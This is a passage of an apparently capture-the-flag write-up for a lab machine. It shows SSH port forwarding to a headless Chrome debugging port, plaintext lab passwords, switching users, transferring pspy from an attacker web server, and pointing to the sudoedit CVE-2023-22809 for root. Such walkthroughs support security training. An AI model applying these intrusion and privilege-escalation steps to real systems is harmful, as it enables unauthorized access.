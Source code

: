 In the process we can see that this port is running the remote debug of Google Chrome

1.  `-bash-5.1$ ps faux | grep 41829``runner     19539  0.1  2.6 34023456 103904 ?     Sl   03:28   0:00                      _ /usr/bin/google-chrome --allow-pre-commit-input --crash-dumps-dir=/tmp --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-gpu --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-blink-features=ShadowDOMV0 --enable-logging --headless --log-level=0 --no-first-run --no-service-autorun --password-store=basic --remote-debugging-port=41829 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.com.google.Chrome.VCC6v1 --window-size=1420,1080 data:,``runner     19603  0.5  4.1 1184764420 163312 ?   Sl   03:28   0:01                          |       _ /opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=19546 --lang=en-US --enable-automation --enable-logging --log-level=0 --remote-debugging-port=41829 --test-type=webdriver --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --enable-blink-features=ShadowDOMV0 --lang=en-US --num-raster-threads=1 --renderer-client-id=5 --time-ticks-at-unix-epoch=-1678414886916814 --launch-time-ticks=3996020528 --shared-files=v8_context_snapshot_data:100 --field-trial-handle=0,i,1475177266462851820,14744098003185442377,131072 --disable-features=PaintHolding``corum      19709  0.0  0.0   4020  2072 pts/7    S+   03:31   0:00              _ grep 41829`

To use the port locally we will use it by port forwarding with ssh

1.  `└─# ssh corum@10.10.11.203 -L 41829:127.0.0.1:41829``corum@10.10.11.203's password: 5db7caa1d13cc37c9fc2`

Use chrome://inspect in the search bar and type`127.0.0.1:41829`

It shows us the Target SuperPassword of http://test.superpass.htb/vault, access to see the account password

We can use the username and password of the agile site again to log in via ssh

1.  `edwards``d07867c6267dcb5df0af`
2.  `corum@agile:~$ su edwards``Password:` `edwards@agile:/home/corum$` `edwards@agile:/home/corum$ id``uid=1002(edwards) gid=1002(edwards) groups=1002(edwards)`

View sudoers level permissions, we can use sudoedit as dev_admin to open 2 files

1.  `edwards@agile:/home/corum$ sudo -l``[sudo] password for edwards:` `Matching Defaults entries for edwards on agile:`    `env_reset, mail_badpass,`    `secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin,`    `use_pty`
2.  `User edwards may run the following commands on agile:`    `(dev_admin : dev_admin) sudoedit /app/config_test.json`    `(dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt`

Open the web in local python and upload it to the target machine pspy

1.  `└─# python -m http.server  80``Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...``10.10.11.203 - - [10/Mar/2023 13:37:47] "GET /pspy64 HTTP/1.1" 200 -`

Using pspy to list tasks we can find that root executed this file /app/venv/bin/activate

1.  `edwards@agile:~$ ./pspy64 |grep activate``2023/03/10 05:41:55 CMD: UID=1002  PID=1326   | grep --color=auto activate` `2023/03/10 05:41:55 CMD: UID=1002  PID=1320   | vim /var/tmp/activate.XXfIlGzM /var/tmp/config_testXXXyfw94.json` `2023/03/10 05:45:01 CMD: UID=0     PID=1480   | /bin/bash -c source /app/venv/bin/activate` 

The file has dev_admin as a writable group, if we can modify it we are root

Found CVE-2023–22809 [1] for sudoedit , which shows us some ways to exploit it
